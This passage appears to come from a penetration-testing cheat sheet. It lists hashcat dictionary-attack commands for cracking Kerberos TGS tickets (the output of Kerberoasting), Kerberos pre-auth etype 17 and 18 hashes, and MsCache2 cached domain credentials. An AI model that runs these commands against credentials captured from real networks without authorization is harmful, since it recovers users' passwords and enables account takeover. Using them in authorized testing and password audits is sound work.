  hashcat64.exe -m 13100 -a 0 <krb5tgs-hashes.txt> <passlist.txt> -o cracked.txt
  ```

  ### Kerberos 5 TGS AES128
  ```shell
  hashcat64.exe -m 19600 -a 0 <krb5tgsaes128-hashes.txt> <passlist.txt> -o cracked.txt
  ```

  ### Kerberos 5 TGS AES256
  ```shell
  hashcat64.exe -m 19700  -a 0 <krb5tgsaes256.txt> <passlist.txt> -o cracked.txt
  ```

  ### Kerberos 5 etype 17, Pre-Auth
  ```shell
  hashcat64.exe -m 19800  -a 0 <krb5tetype17.txt> <passlist.txt> -o cracked.txt
  ```

  ### Kerberos 5 etype 18, Pre-Auth
  ```shell
  hashcat64.exe -m 19900  -a 0 <krb5tetype18.txt> <passlist.txt> -o cracked.txt
  ```

  ### MsCache 2 (slow af)
  ```shell
  hashcat64.exe -m 2100 -a 0 <mscache2-hashes.txt> <passlist.txt> -o cracked.txt
  ```
  </details>
